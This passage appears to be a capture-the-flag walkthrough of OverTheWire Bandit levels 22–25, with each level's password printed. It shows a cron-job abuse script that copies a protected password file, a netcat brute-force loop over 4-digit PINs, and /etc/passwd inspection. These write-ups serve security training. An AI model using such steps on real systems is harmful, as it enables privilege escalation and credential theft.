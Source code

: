 Now we get the correct file by running the command `echo I am user bandit23 | md5sum | cut -d ' ' -f 1`

This gives us `8ca319486bfbbc3663ea0fbe81326349`

So we do `cat /tmp/8ca319486bfbbc3663ea0fbe81326349`

Password is `QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G`

## Level 23:
This level is again similar to previous two levels where awe have to abuse the cronjob.
Here we Just need to write a script and save it in `/var/spool/bandit24/foo` this script gets executed as bandit 24.

so we write a simple script 
```
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/bandit23/password.txt
```
and then running
`cat /tmp/bandit23/password.txt`
gives us the password

Password is `VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar`

## Level 24:
In this level we gain need to write a script to brute-force all 4 digit lock combinations
```
#!/bin/bash
for i in {0000..9999}
do
  echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar" $i;
done | nc localhost 30002 > test
```
and then we need to search for the correct password form that list so we just type

`cat test | grep -v password`

Password is `p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d`

# Level 25

We directly get ssh key in the hime directory. Then we try to find out the bandit26 shell with the command

`cat /etc/passwd | grep bandit26`

which gives us `bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext`

checking its contents gives us (cat /usr/bin/showtext)
```
#!/bin/sh

export TERM=linux

more ~/text.txt
exit 0
```
It is important to understand how `more` works before proceeding to next level. Here the more command is being used to read from text.txt and display it.
U can get the password for bandit26 in bandit26 writeup itself
